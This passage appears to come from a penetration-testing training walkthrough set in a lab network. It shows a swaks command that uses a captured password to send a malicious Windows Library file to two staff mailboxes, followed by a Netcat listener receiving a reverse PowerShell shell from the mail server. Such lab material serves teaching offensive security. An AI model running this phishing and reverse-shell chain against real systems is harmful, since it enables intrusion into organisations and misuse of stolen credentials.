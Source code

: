 Now we are ready to build the swaks command to send the emails. We'll provide **daniela@beyond.com** and **marcus@beyond.com** as recipients of the email to **\-t**, **john@beyond.com** as name on the email envelope (sender) to **\--from**, and the Windows Library file to **\--attach**. Next, we'll enter **\--suppress-data** to summarize information regarding the SMTP transactions. For the email subject and body, we'll provide **Subject: Staging Script** to **\--header** and **body.txt** to **\--body**. In addition, we'll enter the IP address of MAILSRV1 for **\--server**. Finally, we'll add **\-ap** to enable password authentication.

The complete command is shown in the following listing. Once entered, we have to provide the credentials of *john*:

```
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

> Listing 38 - Sending emails with the Windows Library file as attachment to marcus and daniela

After waiting a few moments, we receive requests for our WebDAV and Python3 web servers. Let's check the Netcat listener.

```
listening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

